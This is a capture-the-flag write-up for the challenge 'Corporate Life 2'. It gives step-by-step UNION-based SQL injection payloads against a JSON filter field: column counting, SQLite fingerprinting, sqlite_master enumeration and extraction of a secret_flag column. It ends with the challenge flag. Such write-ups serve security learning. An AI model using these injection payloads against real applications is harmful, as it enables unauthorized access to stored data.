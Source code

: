 # Corporate Life 2

Solved by: @aan
### Question:
The disgruntled employee also stashed some company secrets deep within the database, can you find them out?

### Solution:
1. It is the same step as Corporate Life 1, but then proceed with UNION SQLi
2. There is 6 columns on the table since order by 7 return false
	`{"filter": "' order by 7 -- -"}`
3. Find out if its using sqlite database
	`{"filter": "' UNION SELECT null,null,null,null,null,sqlite_version()-- -"}`
4. List all table (found flags table)
	``{"filter": "' UNION SELECT null,null,null,null,null,name FROM sqlite_master -- -"}`
5. List all column (found secret_flag colum)
	`{"filter": "' UNION SELECT null,null,null,null,null,sql FROM sqlite_master WHERE type='table'-- -"}`
6. Read the column
	`read the column `{"filter": "' UNION SELECT NULL,secret_flag,NULL,NULL,NULL,NULL FROM flags-- -"}`

**Flag:** `KashiCTF{b0r1ng_old_c0rp0_l1f3_am_1_r1gh7_1i5dPSQW}`
